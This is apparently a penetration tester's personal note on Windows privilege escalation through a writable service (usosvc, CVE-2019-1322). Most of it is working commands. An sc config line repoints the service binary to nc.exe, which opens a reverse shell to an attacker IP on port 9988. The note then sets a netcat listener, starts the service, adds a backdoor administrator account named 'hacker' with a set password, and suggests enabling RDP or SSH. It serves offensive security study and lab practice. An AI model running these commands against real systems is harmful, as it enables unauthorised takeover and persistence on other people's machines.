 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#post-exploitation
# Editable Service

If you find a service that is editable (WinPEAS can help here to find such services) you can edit the binpath to point to nc.exe to get a reverse shell. 

Steps also described here: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#example-with-windows-10---cve-2019-1322-usosvc

Note: in both my experiences using this, this does get shell, but it closes in a few seconds.

  1. Upload `nc.exe` to a writable directory.
  2. `sc config usosvc binpath= "C:\Inetpub\wwwroot\nc.exe -nv <kali_IP> 9988 -e C:\Windows\System32\cmd.exe"`
  3. `sc config usosvc  obj= ".\LocalSystem" password= ""`
     - I didn't need this second time using it
  5. `sc config usosvc start= "demand"`
  6. `nc -lvp 9988` (setup listener on kali)
  7. `net start usosvc`
  8. R00T!
	
Since shell closes soon, add new admin user:
1. `net user hacker h@ck3r%93 /add`
2. `net localgroup administrators hacker /add`

Now RDP/ssh with new creds (if services are available, or you can open them yourself):
1. `rdesktop <target>`
2. R00T!

The shell closes due to a Windows timeout variable in the registry that defines how long to wait for a service to response. If you're in a position to edit that (i.e. ssh/rdp not enabled) this would stabilize the shell.
If you don’t want to edit the registry, since you're admin for a bit with this shell, you could try enabling RDP or SSH.